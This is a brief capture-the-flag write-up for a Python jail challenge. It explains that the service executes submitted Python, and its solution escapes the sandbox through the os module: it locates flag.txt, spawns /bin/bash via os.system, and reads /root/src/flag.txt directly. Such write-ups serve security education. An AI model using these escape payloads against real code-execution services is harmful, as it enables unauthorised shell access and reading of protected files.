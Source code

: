 # Python Break
## Jail

> This feels like a whole different world
> 
> nc 128.199.77.173 1342

### Files
- N/A

### Analysis
Participants were expected to figure out that this was also a Python code executor.<br/>
Instead of accessing a variable, the challenge required participants to break out of the Python environment to access the flag by using the OS module.

### Solution
1. To locate the flag file<br/>
  ```print(os.system("locate flag.txt"))```

2. Gaining root access to the container or directly reading the file<br/>
  ```print(os.system("/bin/bash"))``` or ```print(os.read(os.open('/root/src/flag.txt', os.O_RDONLY),100))```
